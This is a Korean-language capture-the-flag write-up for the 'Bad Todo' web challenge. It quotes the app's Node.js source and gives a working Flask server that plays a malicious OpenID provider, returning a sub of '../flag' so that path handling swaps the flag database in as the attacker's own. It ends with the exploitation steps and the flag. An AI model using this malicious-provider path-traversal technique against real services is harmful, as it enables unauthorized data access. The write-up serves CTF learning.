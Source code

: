 # Bad Todo (247 Points) - 75 Solved
얘는 코드만 살짝 복잡할 뿐, 막상 풀이 자체는 쉽다.
먼저 FLAG위치를 살펴보기 위해선 prime_flag.js를 살펴보면 된다.

```
import { promises as fs, existsSync } from "fs";
import { createClient } from "@libsql/client";

export async function primeFlag() {
    if (existsSync(process.env.STORAGE_LOCATION + "/flag")) {
        await fs.chmod(process.env.STORAGE_LOCATION + "/flag", 0o700);
        await fs.rm(process.env.STORAGE_LOCATION + "/flag");
    }
    
    const client = createClient({
        url: `file://${process.env.STORAGE_LOCATION}/flag`
    });

    await client.execute("CREATE TABLE todos(text TEXT NOT NULL, done BOOLEAN)");
    await client.execute("INSERT INTO todos(text, done) VALUES(?, ?)", [process.env.FLAG, true]);
    await client.close();

    await fs.chmod(process.env.STORAGE_LOCATION + "/flag", 0o400);
}
```
FLAG환경변수를 가져와서 STORAGE_LOCATION/flag에 넣고 있다.
STORAGE_LOCATION위치는 .env파일에 `/opt/bad-todo/storage` 로 나와있다.
즉, /opt/bad-todo/storage/flag라는 db file에 flag값을 저장한다.

여기까지 파악해두고, app.js로 가면 다음과 같은 경로를 볼 수 있다.
```
app.post("/start", asyncHandler(async (req, res) => {
    let response = null;
    try {
        response = await safeJson(req.body.issuer + "/.well-known/openid-configuration");
    } catch(e) {
        res.sendStatus(400);
        res.write("Invalid OpenID configuration ;_;");
        res.end();
        return;
    }
    if (response && response.issuer && response.authorization_endpoint && response.token_endpoint && response.userinfo_endpoint) {
        const session = await newSession(req.body.issuer, req.body.client_id);
        console.log(session);

        const search = new URLSearchParams();
        search.append("client_id", req.body.client_id);
        search.append("redirect_uri", process.env.BASE + "/auth_redirect");
        search.append("scope", "openid");
        search.append("response_type", "code");
        search.append("state", session);

        
        res.setHeader("Set-Cookie", `session=${session}; HttpOnly; Max-Age=3600; SameSite=Lax; Secure`);
        res.setHeader("Location", `${response.authorization_endpoint}?${search.toString()}`)
        res.sendStatus(302);
        
    } else {
        res.sendStatus(400);
        res.write("Invalid OpenID configuration ;_;");
        res.end();
    }
}));
```
`req.body.issuer + "/.well-known/openid-configuration"`에서 반환하는 값을 정보들로 사용하고 있는데 issuer은 safe_fetch.js코드를 보면 알 수 있듯이 https://스킴이면은 모든 허용한다.
아래는 safe_fetch.js코드이다.
```
export async function safeFetch(url, params) {
    const urlParsed = new URL(url);
    if (urlParsed.protocol !== "https:") throw new Error("use https");

    const resolved = await dns.resolve(urlParsed.host);
    const isOk = resolved.every(ip => {
        const parsed = ipaddr.parse(ip);
        const match = ipaddr.subnetMatch(parsed, unsafeIps, "ok");

        return match === "ok";
    });

    if (!isOk) throw new Error("unsafe url");
    
    return await fetch(url, params);
}

export async function safeJson(url, params) {
    const response = await safeFetch(url, params);

    if (response.status !== 200) return false;
    if (!response.body) return false;

    const reader = response.body.getReader();

    const data = await cappedReader(reader, 0xFFFF);
    const decoder = new TextDecoder();
    const str = decoder.decode(data);

    return JSON.parse(str);
}
```
따라서 issuer을 내 ip로 해서 요청을 보낼 수 있다.

그리고 아래는 app.js의 /auth_redirect경로 부분이다.
```
app.get("/auth_redirect", asyncHandler(async (req, res) => {
    if (!req.cookies.session) return res.end("No session");
    if (req.cookies.session !== req.query.state) return res.end("Bad state");
    if (req.query.error) {
        return res.end("identity provider gave us an error.");
    }
    
    const sessionDetails = await lookupSession(req.cookies.session);
    const response = await safeJson(sessionDetails.idpUrl + "/.well-known/openid-configuration");
    if (!response.token_endpoint) return res.end("No token endpoint");
    if (!response.userinfo_endpoint) return res.end("No user info endpoint");

    const search = new URLSearchParams();
    search.append("grant_type", "authorization_code");
    search.append("code", req.query.code);
    search.append("redirect_uri", process.env.BASE + "/auth_redirect");
    search.append("client_id", sessionDetails.clientId);
    
    const tokenResponse = await safeJson(response.token_endpoint, {
        method: "POST",
        body: search.toString(),
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        }
    });

    if (!tokenResponse || !tokenResponse.access_token || !tokenResponse.token_type) return res.end("Bad token response");

    const userInfo = await safeJson(response.userinfo_endpoint, {
        headers: {
            "Authorization": `${tokenResponse.token_type} ${tokenResponse.access_token}`
        }
    });

    if (!userInfo || !userInfo.sub) return res.end("user has no sub");

    await successfulLogin(req.cookies.session, userInfo);
    res.setHeader("Location", `/`)
    res.sendStatus(302);
}));
```
코드를 보면은 위에 내 ip에서 얻은 json값을 파싱해서 token_endpoint에 POST로 요청을 보낸다.그 후 access_token과 token_type이 있으면 통과를 하니 여기서도 token_endpoint를 내 서버로 지정하고 access_token과 token_type을 반환할 수 있게 한다.
그 다음은 userinfo_endpoint에 요청을 보내서 userInfo에 저장하고 userInfo.sub이 있는지 확인한다.
userinfo_endpoint도 마찬가지로 내 서버로 조작해서 sub값을 마으대로 조작할 수 있다.
그러면 이제 마지막 successfullLogin함수로 가보겠다.

```
export async function successfulLogin(session, metadata) {
    await client.execute("UPDATE sessions SET userId = ?, userMetadata = ? WHERE id = ?", [metadata.sub, JSON.stringify(metadata), session]);
}
```
sub값을 userId에 넣고
storage.js의 getStoragePath함수로 가보면은
```
export function sanitizePath(base) {
    const normalized = path.normalize(path.join(process.env.STORAGE_LOCATION, base));
    const relative = path.relative(process.env.STORAGE_LOCATION, normalized);
    if (relative.includes("..")) throw new Error("Path insane");

    const parent = path.dirname(normalized);
    mkdirSync(parent, { recursive: true });
    
    return normalized;
}

export function getStoragePath(idp, sub) {
    const first2 = sub.substring(0, 2);
    const rest = sub.substring(2);

    const path = `${sha256sum(idp)}/${encodeURIComponent(first2)}/${encodeURIComponent(rest)}`;
    return sanitizePath(path);
}
```
해당 id값을 다시 sub로 활용하여 db file위치를 반환하고 있다.
이때 sanitizePath를 통해 STORAGE_LOCATION 즉, /opt/bad-todo/storage보다 상위 폴더로 접근하려 하면 차단하는데
우리가 원하는건 flag이기 때문에 상위폴더로 갈 필요가 없고 ../flag를 사용해서 flag db file을 내 db file인 것 처럼 바꿔 끼워넣으면 된다.

아래는 위의 조건들을 모두 만족하게 하여 내 서버에 돌린 코드이다.
```
from flask import Flask, jsonify, Response
import requests

app = Flask(__name__)

@app.route('/.well-known/openid-configuration', methods=['GET'])
def gopher_test():
    return "{\"issuer\":\"aa\", \"authorization_endpoint\":\"b\", \"token_endpoint\":\"https://qweee.run.goorm.app\", \"userinfo_endpoint\":\"https://qweee.run.goorm.app/sub\"}"

@app.route('/', methods=['POST'])
def post():
    return "{\"access_token\":\"hh\", \"token_type\":\"ce\"}"

@app.route('/sub', methods=['GET'])
def post2():
    ascii_char = chr(255)
    return """
    {"name":"ccc", "sub":"../flag"}
    """

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

아래는 익스 과정이다.

1. 위의 코드를 내 서버에 띄운다.
2. /start에 내 서버 url을 담은 요청을 날린다.
![image](https://github.com/user-attachments/assets/9eda0690-e1f1-4d31-8a3c-ade00c5df723)
3. /start에서 받은 session값을 쿠키와 state에 담고 /auth_redirect로 요청한다.
![image](https://github.com/user-attachments/assets/91755535-1c9c-473e-9f36-41da3fdede60)
4. 해당 세션값을 가지고 메인페이지로 가면 flag db가 내 db로 끼워지게 되어 있는걸 확인할 수 있고 flag를 획득 가능하다.
![image](https://github.com/user-attachments/assets/fc1be0db-cc36-4911-b2af-0e6775669b78)


**FLAG** : `irisctf{per_tenant_databases_are_a_cool_concept_indeed}`

